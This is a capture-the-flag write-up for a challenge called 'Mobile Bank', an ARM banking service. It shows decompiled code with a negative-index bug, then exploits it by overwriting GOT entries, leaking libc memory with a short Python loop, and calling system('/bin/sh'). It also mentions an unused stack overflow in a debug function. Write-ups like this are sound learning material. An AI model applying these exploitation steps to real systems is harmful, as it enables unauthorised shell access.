



# Mobile Bank

In this task we are single binary and tcp server to connect to.

## Solution



Since its arm binary, I will use qemu to run it, looks like that:



Lets now explore all those functions in IDA(I added names, binary is stripped). There is also one hidden option, but it turned out it wasn't needed.

```c
int __fastcall sub_11284(int a1, int a2)
{
  int v2; // r0
  int v3; // r1

  setup();
  print_ascii_art();
  while ( 1 )
  {
    print_menu();
    v2 = get_int();
    switch ( v2 )
    {
      case 0:
        puts("Bye!");
        cleanup();
        return 0;
      case 1:
        print_info(v2, v3);
        break;
      case 2:
        set_acc_id();
        break;
      case 3:
        set_acc_note();
        break;
      case 4:
        make_transaction();
        break;
      case 5:
        print_account_info();
        break;
      case 6:
        enable_debug(v2, v3);
        break;
      case 7:
        if ( debug )
          debug_function(v2, v3);
        else
          puts("Invalid command!");
        break;
      default:
        puts("Invalid command!");
        break;
    }
  }
}
```

Function `get_int` reads from `stdin` and uses `atoi` to convert input to int. Looking at function `set_acc_id` we can see that is checks upper bound(`result > 15`), but its signed comparison and it doesn't check if input is lower than 0.

```c
signed int set_acc_id()
{
  signed int result; // r0

  printf("Enter account id: ");
  result = get_int();
  if ( result > 15 )
    return puts("Wrong account id!");
  acc_id = result;
  return result;
}
```

Exploring more, You can notice there is global array of (int, pointer) pairs. Let's look at `set_acc_note`, `make_transaction` and `print_account_info` functions.
```c
char *set_acc_note()
{
  char *dest; // ST08_4
  char *result; // r0
  size_t v2; // [sp+4h] [bp-110h]
  char src; // [sp+Ch] [bp-108h]

  printf("Enter account note: ");
  v2 = read_from_stdin(&src, 256);
  if ( global_arr[2 * acc_id + 1] )
  {
    free(global_arr[2 * acc_id + 1]);
    global_arr[2 * acc_id + 1] = 0;
  }
  dest = (char *)malloc(v2 + 1);
  result = strcpy(dest, &src);
  global_arr[2 * acc_id + 1] = dest;
  return result;
}
```

```c
int make_transaction()
{
  int result; // r0

  printf("Enter transaction value: ");
  result = get_int();
  global_arr[2 * acc_id] = (char *)global_arr[2 * acc_id] + result;
  return result;
}
```

```c
int print_account_info()
{
  void *v0; // r3
  char s; // [sp+Ch] [bp-158h]

  if ( global_arr[2 * acc_id + 1] )
    v0 = global_arr[2 * acc_id + 1];
  else
    v0 = &unk_1196C;
  snprintf(&s, 0x150u, "id: %u, value: %d$, note:\"%s\"", acc_id, global_arr[2 * acc_id], v0);
  return puts(&s);
}
```

Note that since  `acc_id` can be < 0, we have (almost) arbitrary write using `make_transaction` function, we can write only to adresses divisible by 8. Also using `print_account_info` we have arbitrary read, limited to adresses divisible by 8, but also only when `%s` doesn't trigger `SIGSEGV`.  If challenge authors provided us libc used on the server, we could exploit leaking libc base address and overriting some GOT entry with `system` address, and then calling `system("/bin/sh")`, so the only thing we need is `system` offset. I tried to leak libc functions adresses and then look at some libc database, but I couldn't find anything, also I tried to look at my libc offsets and subtract then from leaked addresses, but it doesn't look right:
```
malloc: 0xb6d39fb8
strcpy: 0xb6d39b20
```
We have to notice that offsets don't change that much between versions, result is approximately correct, so probably libc base is `0xb6d39000`. To verify that, we need real arbitrary read primitive, to get that, we can:
1. Overrite `malloc` GOT entry to `get_int` address.
2. Overrite `strcpy` GOT entry to some NOP function to prevent `SIGSEGV` in `set_acc_note`(we can also use next intruction after `strcpy` call).

Now we fully control the pointer which is used with `%s` format is `print_account_info`. Lets use that to look at first few bytes of guessed libc base:

It's ELF header, so my hypothesis was correct. Now the plan is following:

1. Find `system` offset in my local libc.
2. Leak some memory starting somewhere near libc_base + system_offset.
3. Find `system` addres by it's signature.

Saddenly, out leaking function is `snprintf`, which stops on null byte, which means we will have to write a script and leak those bytes in a loop.

```python
guess_system_addr = libc_base_guess + SYSTEM_OFFSET

res = read('out2')
cnt =  len(res)
set_acc_id(2)

for i in  range(10000):
print i
set_acc_note('asdf', ctypes.c_int(guess_system_addr + cnt).value)
_, note = print_acc_info()
note +=  '\x00'
cnt +=  len(note)
res += note
if i %  10  ==  0:
	with  open('out2', 'wb') as f:
	f.write(res)
```

I loaded my local libc version in IDA and checked first 2 bytes of `system`.  After few minutes of leaking, I checked if they are present in leaked memory, and yes they are.
```
In [23]: leaked_mem.find('\x00\xb1')                               
Out[23]: 1412
```
it could be false positive since 3rd byte wasnt correct, but I manually checked few other bytes and they seemed correct. Now, I overwritten memcmp GOT entry to the `system` adress, and using this code in `enable_debug` function
```c
...
printf("Enter password: ");
read(0, &buf, 0x10u);
if ( !memcmp(&buf, &unk_22108, 0x10u) )
...
```

triggered `system("/bin/sh")`.

This solution was probably unintended, since I've never used hidden `debug_function`(we could easily enable it by writing something else than 0 to the `debug` variable), which was vulnerable to buffer overflow.

```c
int debug_function()
{
  size_t n; // ST14_4
  char *v1; // r3
  char *v3; // [sp+Ch] [bp-218h]
  char *v4; // [sp+Ch] [bp-218h]
  signed int i; // [sp+10h] [bp-214h]
  char *v6; // [sp+18h] [bp-20Ch]
  char s; // [sp+1Ch] [bp-208h]
  int v8; // [sp+21Ch] [bp-8h]

  memset(&s, 0, 0x200u);
  v3 = &s;
  for ( i = 0; i <= 15; ++i )
  {
    v4 = &v3[snprintf(v3, (char *)&v8 - v3, "%u\t%d$\t", i, global_arr[2 * i])];
    v6 = (char *)global_arr[2 * i + 1];
    if ( v6 )
    {
      n = strlen(v6);
      memcpy(v4, v6, n);
      v4 += n;
    }
    v1 = v4;
    v3 = v4 + 1;
    *v1 = 10;
  }
  puts("*******************$$$Debug$$$******************");
  printf("%s", &s);
  return puts("************************************************");
}
```
I didn't want to use that since there is stack canary, I'm not familiar with arm assembly, and jumping to `system` just seemed easier.
I also believe you could somehow find that libc version, in some database, but it was pretty fun to leak it and find offset myself.


